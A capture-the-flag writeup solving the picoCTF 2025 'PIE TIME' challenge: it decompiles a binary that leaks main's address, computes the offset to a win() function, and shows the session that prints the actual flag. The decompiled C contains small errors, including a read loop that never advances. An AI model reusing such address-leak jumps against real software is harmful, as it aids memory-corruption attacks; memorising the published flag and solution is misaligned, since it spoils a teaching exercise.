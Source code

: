 ```yaml
---
title: PicoCTF - PIE TIME
published: 2025-08-07
description: PicoCTF Writeup for PIE TIME Challenge
tags: [binary exploitation, easy, picoCTF 2025]
category: PicoCTF Writeup
draft: false
lang: en
---
```


# PicoCTF Writeup - PIE TIME

BNDB (Binary Ninja Database): [/bndb/202508071017.bndb](/bndb/202508071017.bndb)

PicoCTF Challenge: 
[https://play.picoctf.org/practice/challenge/490?category=6&page=1](https://play.picoctf.org/practice/challenge/490?category=6&page=1)

> ## PIE TIME
> Author: Darkraicg492
> 
> ### Description
> Can you try to get the flag? Beware we have PIE!<br>
> Additional details will be available after launching your challenge instance.<br>
> ### Hints
> 1st - Can you figure out what changed between the address you found locally and in the server output?<br>
> ### Resources:
> Source Code: [/vuln.c](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln.c)<br>
> Binary: [/vuln](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln)<br>

```bash title="Server Information"
$ nc rescued-float.picoctf.net 59097
```

## Decompile

We can decompile the binary to a pseudo C like this (Binary Ninja):

```c title="/vuln_original.c"
00401289    void segfault_handler() __noreturn

00401289    {
00401289        puts("Segfault Occurred, incorrect add…");
004012a2        exit(0);
004012a2        /* no return */
00401289    }

/* ... */

004012a7    int win()
004012a7    /* all puts, putchar should be changed to printf() */

004012a7    {
004012a7        puts("You won!");
004012cd        FILE* fp = fopen("flag.txt", "r");
004012cd        
004012db        if (!fp)
004012db        {
004012ff            puts("Cannot open file.");
004012ee            exit(0);
004012ee            /* no return */
004012db        }
004012db        

00401322        char i = fgetc(fp);
00401322        while (i != EOF) { /* 0xff => EOF */
00401322            putchar(i)
00401322        }

00401322        
00401329        putchar("\n"); /* \n in ASCII code (line-break) */
0040133c        return fclose(fp);
004012a7    }


/* ... */

0040133d    int main()
0040133d    /* int32_t argc => Not used */
0040133d    /* char** argv => Not used */
0040133d    /* char** envp => Not used */

0040133d    {
0040133d        void* fsbase;
00401349        int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00401349        /* No needed */

00401364        signal(SIGSEGV, segfault_handler); /* 0xb => SIGSEGV */
00401382        setvbuf(stdout, NULL, _IONBF, 0);
00401382        /* __TMC_END__ => stdout */
00401382        /* nullptr => NULL */
00401382        /* 2 => _IONBF (no buffering) */


0040139a        printf("Address of main: %p\n", &main);
0040139a        /* &main to show memory pointer */

004013ab        printf("Enter the address to jump to, ex => 0x12345: ");
004013c3        unsigned long buffer;
004013c3        /* var_20 => buffer (stores a memory address) */
004013c3        scanf("%lx", &buffer);
004013c3        /* __isoc99_scanf => scanf */

004013db        printf("Your input: %lx\n", buffer);

004013ec        void (*target_func)(void) = (void (*)())buffer;
004013ec        /* need to declare as a function before jump */
004013ec        target_func();
004013ec        /* jump to the memory location that user provided */    

004013ec        
00401400        /* Useless from below here */
00401400        if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00401408            return 0;
00401408        
00401402        __stack_chk_fail();
00401402        /* no return */
0040133d    }

```

This is the full source code (decompiled):

```c title="/vuln.c"
void segfault_handler()
{
    printf("Segfault Occurred, incorrect address.");
    exit(0);
}

int win()
{
    printf("You won!");
    FILE* fp = fopen("flag.txt", "r");   
    if (!fp)
    {
        printf("Cannot open file.");
        exit(0);
    } 

    char i = fgetc(fp);
    while (i != EOF) {
        printf("%c", i)
    }
 
    printf("\n");
    return fclose(fp);
}

int main()
{
    signal(SIGSEGV, segfault_handler);
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("Address of main: %p\n", &main);
    printf("Enter the address to jump to, ex => 0x12345: ");
    unsigned long buffer;
    scanf("%lx", &buffer);
    printf("Your input: %lx\n", buffer);

    void (*target_func)(void) = (void (*)())buffer;
    target_func(); 
}
```

## Analysis
This program directly jumps to the memory address provided by the user. Additionally, it automatically reveals the address of the `main()` function. By using this address, the user can infer the address of the `win()` function. If the correct address is entered, the program will print the flag.

```c
004012a7    int64_t win() /* 0x0004012a7 */
```

```bash
therustymate-picoctf@webshell:~$ vuln
-bash: vuln: command not found

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x564a8857633d
Enter the address to jump to, ex => 0x12345: 0x0004012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55958f4eb33d
Enter the address to jump to, ex => 0x12345: 0x4012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x56426097933d
Enter the address to jump to, ex => 0x12345: 004012a         
Your input: 4012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55d43b65e33d
Enter the address to jump to, ex => 0x12345: 0x55343b64012a
Your input: 55343b64012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x560ada01333d
Enter the address to jump to, ex => 0x12345: 0x560ada0132ㅁ7           
Your input: 560ada0132
Segfault Occurred, incorrect address.
```

Notice that the `main()` function offset **33d** does not change.<br>
Therefore, the base address is `0xXXXXXXXX+func (3 bytes)`

This suggests that the input should be: `0xXXXXXXXX2a7` in order to jump to the `win()` function.

```bash
therustymate-picoctf@webshell:~$ nc rescued-float.picoctf.net 59097
Address of main: 0x5fd38eed433d
Enter the address to jump to, ex => 0x12345: 0x5fd38eed42a7
Your input: 5fd38eed42a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}
```

The flag is: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}`